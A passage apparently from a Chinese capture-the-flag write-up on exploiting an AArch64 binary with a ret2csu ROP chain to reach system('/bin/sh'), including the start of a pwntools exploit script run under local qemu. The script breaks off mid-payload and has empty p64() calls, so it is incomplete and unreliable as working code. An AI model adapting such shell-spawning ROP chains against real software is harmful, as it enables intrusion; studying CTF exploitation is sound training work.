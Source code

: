 执行g2

[![](assets/1700442742-5e8abd77649d2bcf317096d14871f96e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183827-70f94cf8-8535-1.png)

执行`system('/bin/sh',0,0)`​

[![](assets/1700442742-f6a25a40a874fe8d61e1a079f0003f09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183830-73327a80-8535-1.png)

##### exp：

```plain
from pwn import *
import os

context(os = "linux", arch = 'aarch64', log_level = 'debug')

def dbg():
    os.system('gnome-terminal -x sh -c "gdb-multiarch pwn -ex \'target remote 127.0.0.1:7010\' "')
    pause()


p = process(['qemu-aarch64','-g','7010','-L','/usr/aarch64-linux-gnu/','./pwn'])
#p = process(['qemu-aarch64','-L','/usr/aarch64-linux-gnu/','./pwn'])

elf = ELF("./pwn")
libcso = '/usr/aarch64-linux-gnu/lib/libc.so.6'
libc = ELF(libcso)


context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


def arm_csu():
    pl = b'a'*0x88+p64(g1)
    pl += p64()
    pl += p64()
    pl += p64(0xdeadbeef)   #x29
    pl += p64(g2)       #x30

    pl += p64(0)    #x19 --0
```